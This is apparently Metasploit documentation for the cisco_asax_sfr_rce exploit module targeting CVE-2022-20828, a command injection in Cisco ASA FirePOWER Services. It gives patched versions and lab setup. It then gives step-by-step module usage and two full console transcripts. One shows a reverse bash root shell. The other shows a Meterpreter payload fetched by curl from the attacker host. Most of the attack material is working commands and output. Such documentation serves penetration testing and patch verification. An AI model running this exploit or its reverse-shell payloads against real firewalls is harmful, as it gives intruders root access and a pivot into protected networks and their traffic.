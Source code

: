 ## Vulnerable Application

### Description

This module exploits an authenticated command injection vulnerability affecting
Cisco ASA-X with FirePOWER Services. This exploit is executed through the ASA's
ASDM web server and lands in the FirePower Services SFR module's Linux virtual
machine as the root user. Access to the virtual machine allows the attacker to
pivot to the inside network, and access the outside network. Also, the SFR
virtual machine is running snort on the traffic flowing through the ASA, so
the attacker should have access to this diverted traffic as well.

This module requires ASDM credentials in order to traverse the ASDM interface.
A similar attack can be performed via Cisco CLI (over SSH), although that isn't
implemented here. This attack also assumes the module is installed and
configured.

Finally, it's worth noting that this attack bypasses the effects of the
`lockdown-sensor` command (e.g. the virtual machine's bash shell shouldn't be
available but this attack makes it available).

Cisco assigned this issue CVE-2022-20828. The issue affects all Cisco ASA that
support the ASA FirePOWER module (at least Cisco ASA-X with FirePOWER Service,
and Cisco ISA 3000). The vulnerability has been patched in ASA FirePOWER module
versions 6.2.3.19, 6.4.0.15, 6.6.7, and 7.0.21. The following versions will
receive no patch: 6.2.2 and earlier, 6.3.*, 6.5.*, and 6.7.*.

### Setup

Cisco ASA that support the FirePOWER Services module are, to our knowledge,
strictly hardware firewalls and not capable of being emulated. As such,
testing requires a physical device. Once a device is acquired, you'll
additionally need access to Cisco downloads of ASDM, ASA software, and the
FirePOWER Services Software for ASA. Unfortunately, Cisco hides these
behind a paywall (or a "contract" wall).

However, if you do acquire a Cisco ASA that supports the FirePOWER Services
module, then it will likely come with the module pre-installed. These systems
do support downgrading of the module via uninstall and reinstallation. If
you need to follow that course, then I found the following [guide](https://www.cisco.com/c/en/us/support/docs/security/asa-firepower-services/118644-configure-firepower-00.html#anc5) to be an excellent guide that
demonstrates how to install the FirePOWER module from boot image through
full installation.

This particular module exploits the FirePOWER module via ASDM, so you'll need
that installed and running as well. Likely, the ASA will have an ASDM binary
package already installed, but if not you'll need to download that from Cisco
and copy it onto the ASA. However, once that is complete, you can run the
following commands to start ASDM and enable it on the inside/outside network.

```
asdm image disk0:/asdm<version>.bin
http server enable
http network mask inside
http network mask outside
```

Where network and mask are who you want to be able to access it and inside
is the zone. E.g. "0.0.0.0 0.0.0.0 outside" is the internet. And that should
satisfy the pre-requisites for exploitation (ASDM+sfr).

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/http/cisco_asax_sfr_rce`
* Do: `set USERNAME <username>`
* Do: `set PASSWORD <password>`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module acquires a root shell

## Options

### USERNAME

The username to authenticate with the ASDM http web server with.

### PASSWORD

The password to authenticate with the ASDM http web server with.

## Scenarios

### Successful exploitation of ASA 5506-X with FirePOWER Services for a root shell

```
msf > use exploit/linux/http/cisco_asax_sfr_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/cisco_asax_sfr_rce) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/cisco_asax_sfr_rce) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(linux/http/cisco_asax_sfr_rce) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(linux/http/cisco_asax_sfr_rce) > set RHOST 10.0.0.21
RHOST => 10.0.0.21
msf exploit(linux/http/cisco_asax_sfr_rce) > check
[+] 10.0.0.21:443 - The target is vulnerable. Successfully executed the 'id' command.
msf exploit(linux/http/cisco_asax_sfr_rce) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully executed the 'id' command.
[*] Executing Shell Dropper for cmd/unix/reverse_bash
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.21:43056 ) at 2022-04-21 12:49:15 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux firepower 3.10.107sf.cisco-1 #1 SMP PREEMPT Thu Mar 8 18:29:04 UTC 2018 x86_64 GNU/Linux
```

### Successful exploitation of ASA 5506-X with FirePOWER Services for a Meterpreter shell

```
msf > use exploit/linux/http/cisco_asax_sfr_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/http/cisco_asax_sfr_rce) > set USERNAME admin
USERNAME => admin
msf exploit(linux/http/cisco_asax_sfr_rce) > set PASSWORD labpass1
PASSWORD => labpass1
msf exploit(linux/http/cisco_asax_sfr_rce) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf exploit(linux/http/cisco_asax_sfr_rce) > set RHOST 10.0.0.21
RHOST => 10.0.0.21
msf exploit(linux/http/cisco_asax_sfr_rce) > check
[+] 10.0.0.21:443 - The target is vulnerable. Successfully executed the 'id' command.
msf exploit(linux/http/cisco_asax_sfr_rce) > set TARGET 1
TARGET => 1
msf exploit(linux/http/cisco_asax_sfr_rce) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully executed the 'id' command.
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://10.0.0.2:8080/FeB2t5vKpa
[*] Client 10.0.0.21 (curl/7.48.0) requested /FeB2t5vKpa
[*] Sending payload to 10.0.0.21 (curl/7.48.0)
[*] Meterpreter session 2 opened (10.0.0.2:4444 -> 10.0.0.21:43058 ) at 2022-04-21 12:51:44 -0700
[*] Command Stager progress - 100.00% done (111/111 bytes)
[*] Server stopped.

meterpreter > shell
Process 6315 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux firepower 3.10.107sf.cisco-1 #1 SMP PREEMPT Thu Mar 8 18:29:04 UTC 2018 x86_64 GNU/Linux
```

